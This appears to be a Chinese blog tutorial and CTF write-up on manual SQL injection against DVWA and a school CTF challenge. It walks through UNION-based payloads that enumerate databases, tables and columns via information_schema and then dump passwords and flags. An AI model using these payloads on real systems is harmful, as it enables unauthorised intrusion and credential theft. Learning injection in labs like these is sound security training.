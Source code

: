 ```yaml
---
title: SQL基础
date: 2020-12-08
description: SQL手工注入的基本步骤，绕过空格、等号
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# 判断注入类型  
输入`1' and 1=2 #`，这明显是不成立的，如果回显正常，说明不是字符型注入，不是单引号闭合；如果报错，证明是字符型注入  
同理，输入`1 and 1=2 #`判断是否是数字型注入  
以DVWA的sql(low)为例，输入`1 and 1=2 #`没有报错，证明这不是数字型注入：
![不是数字型注入](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/dvwa.png)
而输入`1' and 1=2 #`报错，是字符型注入
# 爆字段数（显示位）
接下来以校赛题目为例，是字符型注入。原题过滤了空格和等号，这里我们假装没有任何过滤  
用`1' or 1=1 #`可以看到所以的信息，这是因为查询语句变成了查找满足用户名是1或者满足1=1的所有用户。虽然没有用户名为1，但是所有用户名都满足1=1，所以会显示所以用户信息  
## 用order by爆
用`1' or 1=1 order by 5 #`爆显示位。order by 5返回正常，这意味着显示位大于等于5个，一直试到报错为止。这个题加到6就报错了  
order by的意思是按第几个字段排序
## 用union select爆
用`1' union select 1,2,3,4,5 #` 同样一直加到报错为止。用这个有一个好处，就是可以看到各字段和显示位之间的对应关系  
  
不得不说，后面又一次忘记了union select的本质了。被迫更新  
  
`union select`会强行在数据库中加入一些数据，然后再执行查询命令。  
  
现在来解释对应关系的问题，以wechall的MySQL II 为例：  
  
  我们输入`woc'union select 1,'xiaobinggan',md5('fanpai') #`和`fanpai`，看到回显如下
  ![wechall](https://raw.githubusercontent.com/Cranberrycookies/cranberrycookies.github.io/master/assets/images/SQL/wechall.png)
  我们输入了3个字段，只显示出了1个（username字段：xiaobinggan），所以我们后续的注入回显就要在二号位进行

# 爆库名
## 用database爆库名
`1' union select 1,database(),3,4,5 #`   
在2号位显示库名，后面的3,4,5用来凑显示位  
这样爆库名只能看到当前的库
![只能看到用户的库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D1.png)
## 用information_schema爆库名
```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4,5 #
```
information_schema是元数据库，里面存放了所有数据库的所有信息，比如库名、表名、列、数据类型、访问权限等  
schemata是information_schema中的一个表，里面存放了库名  
group_concat()函数可以把组中的字符串连接成一个字符串，schema_name就是库名，group_concat(schema_name)就是从
information_schema.schemata这个表中搜索schema_name（库名），并且返回为一个字符串
![看到了所有库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D2.png)
# 爆表名
```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'cumtctf'),3,4,5 #
```
information_schema.tables中存放了所有表的信息，table_schema是数据表所属的数据库名  
获取了cumtctf这个库中表的表名：
![表名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E8%A1%A8%E5%90%8D.png)
# 爆列名
```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'ctfers'),3,4,5 #
```
column_name就是列名，table_name表名（这次不用在库里搜索了，和schema没关系了）  
获得列名如下：
![列名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%88%97%E5%90%8D.png)
# 爆flag
## 全爆
```sql
1' union select 1,(select group_concat(password) from ctfers),3,4,5 #
```
这个可以看到password里的所有信息，一堆密码和flag
![爆一堆flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag1.png)
## 一个一个爆
```sql
1' union select 1,(select password from ctfers limit 15,1),3,4,5 #
```
limit作用是从第15个开始（从0开始计数），返回一个（不能返回多个，显示位就一个）  
一个一个试，试到第15个
![一个一个试](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag2.png)

